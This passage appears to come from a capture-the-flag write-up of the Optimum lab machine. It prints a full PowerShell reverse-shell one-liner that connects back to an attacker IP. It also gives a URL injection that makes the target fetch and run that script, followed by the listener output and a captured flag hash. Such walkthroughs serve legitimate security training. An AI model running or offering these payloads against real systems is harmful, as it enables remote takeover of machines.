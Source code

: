 Given the age of this host and the easy rating, I likely don't have to
worry about Defender / AMSI, so I'll grab a PowerShell script from
[Nishang](https://github.com/samratashok/nishang). I'll copy the
`Invoke-PowerShellTcpOneLine.ps1`, cut the comments, and update the IP
and port:



    $client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()



I'll save a copy of that as `rev.ps1` (just to make an easier url I'm
about to request). Then I'll start a Python web server, and visit:



    http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}



That triggers Optimum to reach out and download `rev.ps1` (interestingly
again four times), which shows up at the web server:



    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
    10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
    10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
    10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -



When the file is returned, it is executed by `IEX`, short for
`Invoke-Expression`, and the shell connects back to my listening `nc`
(for some reason on this shell the prompt only shows up after the first
command):



    oxdf@parrot$ sudo rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49179
    whoami
    optimum\kostas
    PS C:\Users\kostas\Desktop>



There's a small typo in the flag name, but I can grab it:



    PS C:\Users\kostas\Desktop> cat user.txt.txt
    d0c39409d7b994a9a1389ebf38ef5f73
